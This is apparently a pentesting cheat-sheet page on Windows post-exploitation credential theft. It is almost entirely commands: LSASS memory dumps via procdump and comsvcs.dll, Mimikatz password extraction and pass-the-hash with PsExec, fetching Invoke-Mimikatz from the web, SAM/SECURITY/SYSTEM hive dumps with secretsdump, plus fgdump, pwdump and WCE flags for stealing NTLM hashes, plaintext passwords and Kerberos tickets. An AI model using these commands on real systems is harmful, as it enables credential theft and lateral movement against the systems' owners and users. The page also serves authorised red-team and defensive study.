 ```yaml
---
layout: default
title: Windows
parent: Post-Admin/Root
---
```


# Windows
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Manual Checks
### Is Credential Guard Enabled?
Windows Defender Credential Guard prohibits dumping of LSASS
```powershell
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```
- Check `SecurityServicesConfigured` and `SecurityServicesRunning` are set to `1` or `2`
    - `1` = CredentialGuard
    - `2` = Hypervisor enforced Code Integrity

## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
privilege::debug
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```

### On Target Machine (PowerShell Version) 
Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
```

Extact passwords, etc.
```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

---

## Registry Dump
Dump SAM, SECURITY and SYSTEM registry hives
```powershell
reg save hklm\sam <output path>
reg save hklm\security <output path>
reg save hklm\system <output path>
```

Dump hashes on local machine
```shell
secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
samdump2 <system> <sam>
```

## FGDump/PWDump
Dump hashes from `lsass` on the target machine
```shell
fgdump.exe
python pydump.py
pwdump7.exe
```

## Windows Credential Editor (WCE)
```shell
wce{32|64}.exe -l             # List current sessions & NTLM creds (default)
wce{32|64}.exe -r             # List current sessions & NTLM creds indefinitely
wce{32|64}.exe -e             # List current sessions & NTLM creds every time a logon event occurs
wce{32|64}.exe -s <NTLM>      # Change NTLM creds of current session
wce{32|64}.exe -c <NTLM>      # Run in new session with specified NTLM creds
wce{32|64}.exe -i <LUID>      # Specify LUID to use for current session
wce{32|64}.exe -d             # Delete NTLM creds from current session
wce{32|64}.exe -a <addresses> # Use addresses to read sessions and NTLM creds from memory (from GETLSASRVADDR.EXE)
wce{32|64}.exe -f             # Force 'safe mode'
wce{32|64}.exe -g             # Generate LM & NT hash
wce{32|64}.exe -K             # Dump Kerberos tickets to file
wce{32|64}.exe -k             # Read Kerberos tickets from file and insert into Windows cache
wce{32|64}.exe -w             # Dumps plaintext passwords
```
- `-o <file>` outputs to file
- <https://github.com/returnvar/wce>